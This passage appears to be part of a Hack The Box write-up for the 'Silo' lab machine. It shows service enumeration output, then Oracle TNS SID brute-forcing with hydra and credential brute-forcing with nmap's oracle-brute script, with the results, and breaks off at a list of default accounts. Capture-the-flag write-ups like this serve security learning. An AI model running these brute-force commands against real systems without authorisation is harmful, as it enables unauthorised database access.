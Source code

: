 
  RPCCLIENT:
    -U "": Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE

  SMBCLIENT:
    anonymous: session setup failed: NT_STATUS_LOGON_FAILURE

  DIRB:
  ==> DIRECTORY: http://10.10.10.82/aspnet_client/
  ==> DIRECTORY: http://10.10.10.82/aspnet_client/system_web/

  NIKTO:
  + Server: Microsoft-IIS/8.5
  + Retrieved x-aspnet-version header: 4.0.30319
  + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST


2. Looking through the nmap output we see port 1521, 'Oracle TNS listener 11.2.0.2.0 (unauthorized)'. This sounds like a good start.
Searching for Oracle TNS exploits we come across a post from HackTricks, teaching us the steps to take when testing the service.

  a) Enumerate version info (search for known vulns)
  b) Bruteforce TNS listener communication (not always needed)
  c) Enumerate/Bruteforce SID names (like database names)
  d) Bruteforce credentials for valid SID name discovered
  e) Try to execute code

  As we already know the version (11.2.0.2.0) we can jump straight to step c, Bruteforce SID names.
    [root:/git/htb/silo]# hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid              (master✱)
      Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

      Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-03 16:03:34
      [DATA] max 16 tasks per 1 server, overall 16 tasks, 576 login tries (l:576/p:1), ~36 tries per task
      [DATA] attacking oracle-sid://10.10.10.82:1521/
      [1521][oracle-sid] host: 10.10.10.82   login: XE
      [1521][oracle-sid] host: 10.10.10.82   login: PLSExtProc
      [1521][oracle-sid] host: 10.10.10.82   login: CLRExtProc
      [1521][oracle-sid] host: 10.10.10.82
      1 of 1 target successfully completed, 4 valid passwords found

    We find four SIDs: XE, PLSExtProc, CLRExtProc, <blank>


3. Next we need to bruteforce credentials (step d). We can use either msf or nmap for this, so obviously we go for nmap.
    [root:/git/htb/silo]# nmap --script=oracle-brute --script-args=oracle-brute.sid=XE 10.10.10.82 -p 1521                            (master✱)
      PORT     STATE SERVICE
      1521/tcp open  oracle
      | oracle-brute:
      |   Accounts:
      |     CTXSYS:CTXSYS - Account is locked
      |     MDSYS:MDSYS - Account is locked
      |     OUTLN:OUTLN - Account is locked
      |     HR:HR - Account is locked
      |     DBSNMP:DBSNMP - Account is locked
      |     DIP:DIP - Account is locked
      |     XDB:CHANGE_ON_INSTALL - Account is locked